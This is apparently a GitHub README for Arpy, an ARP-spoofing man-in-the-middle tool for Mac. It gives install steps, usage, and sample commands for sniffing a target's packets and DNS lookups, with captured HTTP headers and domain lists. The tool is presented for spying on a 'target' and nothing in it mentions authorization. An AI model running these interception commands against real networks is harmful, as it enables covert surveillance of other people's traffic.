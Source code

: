 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
brew install scapy
```

## Sample Commands
```
ivanvza:~/ > arpy
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...

[Info] Found the following (IP layer): 192.168.1.4 -> 216.58.223.10
GET /ajax/libs/jquery/1.7.1/jquery.min.js HTTP/1.1
Host: ajax.googleapis.com
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.152 Safari/537.36
X-Client-Data: CKW1yQEIjrbJAQimtskBCKm2yQEIxLbJAQjriMoBCLWJygEIs5TKAQ==
Referer: http://stackoverflow.com/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8,af;q=0.6

[Info] Found the following (IP layer): 216.58.223.10 -> 192.168.1.4
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Type: text/javascript; charset=UTF-8
Last-Modified: Mon, 02 Apr 2012 18:24:28 GMT
Date: Mon, 18 May 2015 17:26:10 GMT
Expires: Tue, 17 May 2016 17:26:10 GMT
Access-Control-Allow-Origin: *
Timing-Allow-Origin: *
X-Content-Type-Options: nosniff
Server: sffe
Content-Length: 33186
X-XSS-Protection: 1; mode=block
Cache-Control: public, max-age=31536000
Age: 79137
Alternate-Protocol: 80:quic,p=0

�Ľ�~�F�.�?��ʫ�!J�ҷ
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns-gource
WARNING: No route found for IPv6 destination :: (no default route?)
[INFO] For a live gource feed run this command in parallel with this one:

tail -f parsed_domain_gource | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -
```
### Sample Gource footage
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Filter sniff to a certain domain/IP.
